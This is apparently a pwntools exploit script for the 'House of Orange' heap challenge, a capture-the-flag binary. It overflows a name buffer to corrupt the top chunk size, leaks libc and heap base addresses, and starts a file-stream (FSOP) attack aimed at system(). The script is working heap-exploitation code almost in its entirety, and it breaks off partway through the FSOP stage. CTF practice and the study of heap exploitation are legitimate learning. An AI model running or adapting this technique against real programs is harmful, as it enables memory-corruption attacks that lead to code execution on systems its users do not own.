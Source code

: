 ```python
  pause()


def add(size,name,price,color):
  ru("Your choice : ")
  sl('1')
  ru("Length of name :")
  sl(str(size))
  ru("Name :")
  s(str(name))
  ru("Price of Orange:")
  sl(str(price))
  ru("Color of Orange:")
  sl(str(color))

def see():
  ru("Your choice : ")
  sl('2')

def upgrade(size,name,price,color):
  ru("Your choice : ")
  sl('3')
  ru("Length of name :")
  sl(str(size))
  ru("Name:")
  s(str(name))
  ru("Price of Orange: ")
  sl(str(price))
  ru("Color of Orange: ")
  sl(str(color))


add(0x20,'aaaa',1,56746)
payload='a'*0x20+p64(0)+p64(0x21)+p32(0xddaa)+p32(0x1)+p64(0) # padding + calloc(0x8)
payload+=p64(0)+p64(0xf91) # top chunk size == 0xf91
upgrade(0x50,payload,1,56746) 
# debug()
add(0xfc0,'aaaabbbb',1,56746) # house of orange free top chunk
# debug()
add(0x600,'ccccdddd',1,56746) # cut a large bin chunk from old top chunk

# leak libc and heap address by bk and fd_nextsize
see()
ru("Name of house : ")
ru("ccccdddd")
libcbase=uu64(ru('\n')[:-1]) -0x610 -88 -0x10 -libc.sym['__malloc_hook']
leak("libcbase",hex(libcbase))
# debug()
upgrade(0x10,'f'*0x10,1,56746)
see()
ru("Name of house : ")
ru('f'*0x10)
heapbase=uu64(ru('\n')[:-1])-0xd0

leak("libcbase",hex(libcbase))
leak("heapbase",hex(heapbase))

# debug()

# FSOP
IO_list_all=libcbase+libc.sym['_IO_list_all']
leak("IO_list_all",hex(IO_list_all))
sys_addr=libcbase+libc.sym['system']
```